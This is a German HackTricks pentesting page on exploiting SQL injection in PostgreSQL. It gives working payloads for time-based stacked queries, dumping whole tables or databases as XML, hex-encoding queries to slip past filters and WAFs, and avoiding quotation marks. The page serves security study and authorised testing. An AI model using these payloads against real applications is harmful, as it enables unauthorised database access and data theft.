 # PostgreSQL-Injektion

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Wenn du an einer **Hacking-Karriere** interessiert bist und das Unhackbare hacken möchtest - **wir stellen ein!** (_fließend Polnisch in Wort und Schrift erforderlich_).

{% embed url="https://www.stmcyber.com/careers" %}

***

**Diese Seite soll verschiedene Tricks erklären, die dir helfen könnten, eine SQL-Injektion in einer PostgreSQL-Datenbank auszunutzen und die Tricks zu ergänzen, die du auf** [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md) **finden kannst.**

## Netzwerkinteraktion - Privilegieneskalation, Port-Scanner, NTLM-Challenge-Response-Offenlegung & Exfiltration

Das **PostgreSQL-Modul `dblink`** bietet Möglichkeiten, sich mit anderen PostgreSQL-Instanzen zu verbinden und TCP-Verbindungen auszuführen. Diese Funktionen, kombiniert mit der `COPY FROM`-Funktionalität, ermöglichen Aktionen wie Privilegieneskalation, Port-Scanning und das Erfassen von NTLM-Challenge-Responses. Für detaillierte Methoden zur Durchführung dieser Angriffe, siehe wie man [diese Angriffe durchführt](network-privesc-port-scanner-and-ntlm-chanllenge-response-disclosure.md).

### **Exfiltrationsbeispiel mit dblink und großen Objekten**

Du kannst [**dieses Beispiel lesen**](dblink-lo_import-data-exfiltration.md), um ein CTF-Beispiel zu sehen, **wie man Daten in große Objekte lädt und dann den Inhalt großer Objekte im Benutzernamen** der Funktion `dblink_connect` exfiltriert.

## PostgreSQL-Angriffe: Lesen/Schreiben, RCE, Privilegieneskalation

Überprüfe, wie man den Host kompromittiert und Privilegien aus PostgreSQL eskaliert in:

{% content-ref url="../../../network-services-pentesting/pentesting-postgresql.md" %}
[pentesting-postgresql.md](../../../network-services-pentesting/pentesting-postgresql.md)
{% endcontent-ref %}

## WAF-Umgehung

### PostgreSQL-Zeichenfolgenfunktionen

Das Manipulieren von Zeichenfolgen könnte dir helfen, **WAFs oder andere Einschränkungen zu umgehen**.\
[**Auf dieser Seite**](https://www.postgresqltutorial.com/postgresql-string-functions/) **findest du einige nützliche Zeichenfolgenfunktionen.**

### Gestapelte Abfragen

Denke daran, dass PostgreSQL gestapelte Abfragen unterstützt, aber mehrere Anwendungen einen Fehler auslösen, wenn 2 Antworten zurückgegeben werden, während nur 1 erwartet wird. Aber du kannst die gestapelten Abfragen weiterhin über Zeitinjektion missbrauchen:
```
id=1; select pg_sleep(10);-- -
1; SELECT case when (SELECT current_setting('is_superuser'))='on' then pg_sleep(10) end;-- -
```
### XML-Tricks

**query\_to\_xml**

Diese Funktion gibt alle Daten im XML-Format in nur einer Datei zurück. Sie ist ideal, wenn Sie eine große Menge an Daten in nur 1 Zeile ausgeben möchten:
```sql
SELECT query_to_xml('select * from pg_user',true,true,'');
```
**database\_to\_xml**

Diese Funktion wird die gesamte Datenbank im XML-Format in nur 1 Zeile ausgeben (seien Sie vorsichtig, wenn die Datenbank sehr groß ist, da Sie sie möglicherweise DoS oder sogar Ihren eigenen Client überlasten):
```sql
SELECT database_to_xml(true,true,'');
```
### Strings in Hex

Wenn Sie **Abfragen** ausführen können, indem Sie sie **innerhalb eines Strings** übergeben (zum Beispiel mit der **`query_to_xml`**-Funktion). **Sie können die convert\_from-Funktion verwenden, um den String als Hexadezimalwert zu übergeben und auf diese Weise Filter zu umgehen:** 

{% code overflow="wrap" %}
```sql
select encode('select cast(string_agg(table_name, '','') as int) from information_schema.tables', 'hex'), convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573', 'UTF8');

# Bypass via stacked queries + error based + query_to_xml with hex
;select query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,'')-- -h

# Bypass via boolean + error based + query_to_xml with hex
1 or '1' = (query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,''))::text-- -
```
{% endcode %}

### Verbotene Anführungszeichen

Wenn Sie keine Anführungszeichen für Ihre Payload verwenden können, können Sie dies mit `CHR` für grundlegende Klauseln umgehen (_Zeichenverkettung funktioniert nur für grundlegende Abfragen wie SELECT, INSERT, DELETE usw. Es funktioniert nicht für alle SQL-Anweisungen_):
```
SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
```
Oder mit `$`. Diese Abfragen liefern die gleichen Ergebnisse:
```
SELECT 'hacktricks';
SELECT $$hacktricks$$;
SELECT $TAG$hacktricks$TAG$;
```
<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Wenn Sie an einer **Hacking-Karriere** interessiert sind und das Unhackbare hacken möchten - **wir stellen ein!** (_fließendes Polnisch in Wort und Schrift erforderlich_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
